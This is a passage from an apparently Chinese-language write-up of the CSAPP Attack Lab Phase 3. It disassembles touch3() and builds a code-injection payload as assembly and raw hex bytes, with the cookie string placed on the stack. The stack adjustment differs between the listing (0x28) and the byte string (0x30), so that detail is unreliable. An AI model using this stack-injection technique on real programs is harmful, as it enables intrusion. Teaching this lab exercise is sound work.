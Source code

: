 ```c
}
```
查看 `touch3()`函数所在位置
```shell
(gdb) disassemble  touch3
Dump of assembler code for function touch3:
   0x00000000004018fa <+0>:     push   %rbx
   0x00000000004018fb <+1>:     mov    %rdi,%rbx
   0x00000000004018fe <+4>:     movl   $0x3,0x202bd4(%rip)        # 0x6044dc <vlevel>
   0x0000000000401908 <+14>:    mov    %rdi,%rsi
   0x000000000040190b <+17>:    mov    0x202bd3(%rip),%edi        # 0x6044e4 <cookie>
   0x0000000000401911 <+23>:    call   0x40184c <hexmatch>
   0x0000000000401916 <+28>:    test   %eax,%eax
   0x0000000000401918 <+30>:    je     0x40193d <touch3+67>
   0x000000000040191a <+32>:    mov    %rbx,%rdx
   0x000000000040191d <+35>:    mov    $0x403138,%esi
   0x0000000000401922 <+40>:    mov    $0x1,%edi
   0x0000000000401927 <+45>:    mov    $0x0,%eax
   0x000000000040192c <+50>:    call   0x400df0 <__printf_chk@plt>
   0x0000000000401931 <+55>:    mov    $0x3,%edi
   0x0000000000401936 <+60>:    call   0x401c8d <validate>
   0x000000000040193b <+65>:    jmp    0x40195e <touch3+100>
   0x000000000040193d <+67>:    mov    %rbx,%rdx
   0x0000000000401940 <+70>:    mov    $0x403160,%esi
   0x0000000000401945 <+75>:    mov    $0x1,%edi
   0x000000000040194a <+80>:    mov    $0x0,%eax
   0x000000000040194f <+85>:    call   0x400df0 <__printf_chk@plt>
   0x0000000000401954 <+90>:    mov    $0x3,%edi
   0x0000000000401959 <+95>:    call   0x401d4f <fail>
   0x000000000040195e <+100>:   mov    $0x0,%edi
   0x0000000000401963 <+105>:   call   0x400e40 <exit@plt>
End of assembler dump.
```
不妨以栈顶指针为sval,构造注入代码
```
Phase3:
	mov    $0x5561dc78, %rdi
	mov    $0x4018fa,%r8
	sub    $0x28,%rsp
	call   *%r8
```
跟Phase2的操作一样,查看机器指令:
```shell
Phase3.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <Phase3>:
   0:   48 c7 c7 78 dc 61 55    mov    $0x5561dc78,%rdi
   7:   49 c7 c0 fa 18 40 00    mov    $0x4018fa,%r8
   e:   48 83 ec 28             sub    $0x28,%rsp
  12:   41 ff d0                call   *%r8
```
构造注入代码
```
/* Phase3 */
35 39 62 39 39 37 66 61 00          /* cookie:59b997fa */
48 c7 c7 78 dc 61 55                /* mov    $0x5561dc78,%rdi */
49 c7 c0 fa 18 40 00                /* mov    $0x4018fa,%r8 */
48 83 ec 30                         /* sub    $0x30,%rsp */
41 ff d0                            /* call   *%r8 */
/* 以上共30字节 */
ff ff ff ff ff ff ff ff ff ff 
```